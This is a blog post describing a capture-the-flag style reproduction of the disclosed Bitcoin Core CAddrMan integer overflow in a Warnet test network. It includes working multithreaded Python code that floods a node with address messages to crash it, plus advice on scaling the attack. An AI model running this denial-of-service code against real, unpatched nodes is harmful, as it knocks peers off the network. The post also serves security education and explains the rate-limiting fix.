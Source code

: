 ```yaml
---
layout: post
title: "Exploiting the Bitcoin Core CAddrMan Integer Overflow Vulnerability in Warnet: Battle of Galen Erso"
---
```


On July 31, 2024, Bitcoin Core [disclosed](https://bitcoincore.org/en/2024/07/31/disclose-addrman-int-overflow/) a historical vulnerability that allowed attackers to crash Bitcoin nodes through address message spam.
Originally discovered by Eugene Siegel and fixed in Bitcoin Core v22.0, this issue demonstrates how even simple integer overflow bugs can have significant security implications.

## The Vulnerability

The flaw centered on Bitcoin Core’s address manager (`CAddrMan`), which maintains a list of known peer addresses. Every time a new address is added, a 32-bit counter (`nIdCount`) is incremented to generate a unique identifier.
The critical problem was that this counter could overflow after 2^32 insertions, triggering an assertion failure and crashing the node.
Since address messages are essentially free to send (unlike transactions that require fees or blocks that require proof-of-work), this presented an effective denial-of-service attack vector.

## Reproducing in Warnet: Battle of Galen Erso

Thanks to my previous participation in Librería de Satoshi’s B4OS ([b4os.dev](https://b4os.dev)) program, I was invited to take part in Chaincode Labs’ Battle of Galen Erso, a game designed as part of their BOSS program (more information [here](https://learning.chaincode.com/)). I participated as a member of the “Aqua” team.

The game set up a custom [Warnet](https://github.com/bitcoin-dev-project/warnet) network, having nodes running various versions of Bitcoin Core, each with different vulnerabilities. The goal was to take down as many nodes as possible by exploiting these weaknesses. You can find the specific details [here](https://github.com/bitcoin-dev-project/battle-of-galen-erso).

I created a scenario to demonstrate the `CAddrMan` integer overflow vulnerability in this controlled environment, and I successfully took down a couple of nodes using the exploit. The main ingredients of the exploit were:

- **Multiple attacker threads:** Systematically generating and sending address messages in concurrent threads.
- **Robust thread failure handling:** Automatically restarting threads to ensure the exploit continued.
- **IP address space partitioning:** Assigning each thread a unique segment of the IP address space to avoid duplicate transmissions.

Below is a look at the key parts of the exploit.

### Threading

The exploit launches multiple threads that send address messages concurrently. Each thread is assigned a unique first octet, ensuring that no two threads send the same addresses thus maximizing efficiency.

When the scenario starts, it creates a number of threads based on the `self.total_threads` test parameter (I could have accepted this as a command-line argument, but I opted for simplicity). For example, I set `self.total_threads` to 24 and designated the victim node via the `self.victim` parameter:

```python
class AddrSpammer(Commander):
    def set_test_params(self):
        self.num_nodes = 1
        self.total_threads = 24
        self.victim = "tank-0139-aqua.default.svc"
        ...
```

Next, we start the threads, each with its own unique first octet (explained below). Each thread executes the spam_from method, which contains the main logic of the exploit. Meanwhile, the main thread monitors all worker threads and restarts any that fail:

```python
def run_test(self):
  ...
  self.first_octets = random.sample(range(1, 255), self.total_threads)

  for thread_index in range(self.total_threads):
      self.counters.append(0)
      thread = threading.Thread(
          target=lambda thread_index=thread_index: self.spam_from(thread_index),
          daemon=False,
      )
      self.threads.append({"thread": thread, "thread_index": thread_index})
      thread.start()

  while len(self.threads) > 0:
      for thread in self.threads:
          if not thread["thread"].is_alive():
              thread_index = thread["thread_index"]
              self.log.info(f"restarting thread {thread_index}")
              self.first_octets[thread_index] = self._get_new_first_octet()
              thread["thread"] = threading.Thread(
                  target=lambda thread_index=thread_index: self.spam_from(
                      thread_index
                  ),
                  daemon=False,
              )
              thread["thread"].start()
      time.sleep(10)
```

### Main Exploit Logic

The `spam_from` method is where the action happens. In this method, we first connect to the victim node using the `P2PInterface` class.
Then, we enter an infinite loop that continuously sends address messages to the target.
Note that we use `send_message` (instead of `send_and_ping`) since we do not need responses, we simply want to flood the node as quickly as possible.

```python
def spam_from(self, thread_index):
    self.log.info(f"Thread {thread_index} attacking {self.victim}")
    attacker = P2PInterface()
    attacker.peer_connect(
        dstaddr=self.dstaddr, dstport=self.dstport, net="signet", timeout_factor=1
    )()
    attacker.wait_until(lambda: attacker.is_connected, check_connected=False)

    while True:
        msg = self.setup_addr_msg(thread_index)
        attacker.send_message(msg)
```

### Address Generation

To avoid sending duplicate addresses, we partition the IP space among threads. Each thread uses a unique first octet (from `self.first_octets`) and maintains its own counter (`self.counters`) to generate unique addresses on every iteration. We send addresses in batches of 1000 as this is the maximum number allowed in a single address message (see [Bitcoin Core source code](https://github.com/bitcoin/bitcoin/blob/1172bc4157eefe80d1aaf0b56459857ec651e535/src/net_processing.cpp#L157)).

```python
def setup_addr_msg(self, thread_index):
    counter = self.counters[thread_index]
    addrs = []
    for i in range(1000):
        addr = CAddress()
        addr.nServices = P2P_SERVICES
        addr.ip = f"{self.first_octets[thread_index]}.{(counter >> 16) & 0xFF}.{(counter >> 8) & 0xFF}.{counter & 0xFF}"
        addr.port = 1 + ((counter >> 24) + i) % 65535
        self.counters[thread_index] += 1
        addrs.append(addr)
```

### Scaling Beyond Threads

This, as explained above, works. However, you might find that it's still slow. While the multithreaded approach helps mitigate the blocking nature of sending messages, Python’s Global Interpreter Lock (GIL) means that true parallelism is limited.
The simplest way to scale the exploit further is to run multiple instances of the scenario concurrently. This is why the first octets are generated using a random seed.

You might have noticed the following in the thread restart logic:

```python
self.first_octets[thread_index] = self._get_new_first_octet()
thread["thread"] = threading.Thread(
    target=lambda thread_index=thread_index: self.spam_from(thread_index),
    daemon=False,
)
```

The `_get_new_first_octet` is implemented as follows:

```python
def _get_new_first_octet(self):
    new_first_octet = random.randint(1, 255)
    while new_first_octet in self.first_octets:
        new_first_octet = random.randint(1, 255)
    return new_first_octet
```

This assigns a new random first octet to the thread upon restart. Although it doesn’t guarantee that threads across different scenario instances are completely distinct, it is sufficient to make the attack work within minutes when running enough instances (provided there's enough resources available).
As you increase both the thread count and the number of scenario instances, you’ll notice from the logs that threads begin failing more frequently, hence the need for an automatic restart mechanism.

## Attack Impact and Mitigation

The attack requires sending more than 4 billion addresses to trigger the overflow. While this might seem like a lot, with multiple threads and optimized message generation, it's achievable in a reasonable timeframe. The fix implemented in Bitcoin Core v22.0 adds a rate limit of one address message per 10 seconds (0.1 per second) with bursts of up to 1000 addresses at once from each peer via a [token bucket](https://en.wikipedia.org/wiki/Token_bucket), making the attack impractical.

The vulnerability highlights the importance of:

1. Careful handling of numeric types and potential overflows
2. Rate-limiting peer messages that are essentially free to generate
3. Protecting against resource exhaustion attacks in peer-to-peer networks

## Lessons Learned

This vulnerability demonstrates how “free” peer-to-peer messages can be exploited for denial-of-service attacks. The simple yet effective fix, rate limiting, shows that even when a technical issue (like an integer overflow) remains theoretically possible, practical defenses can make it infeasible to exploit.

Reproducing such vulnerabilities in controlled environments like Warnet is invaluable for:

- Validating security fixes
- Training developers and security researchers
- Testing network resilience
- Developing and verifying detection mechanisms

As Bitcoin continues to evolve, thorough testing and careful attention to implementation details remain critical for maintaining network security.
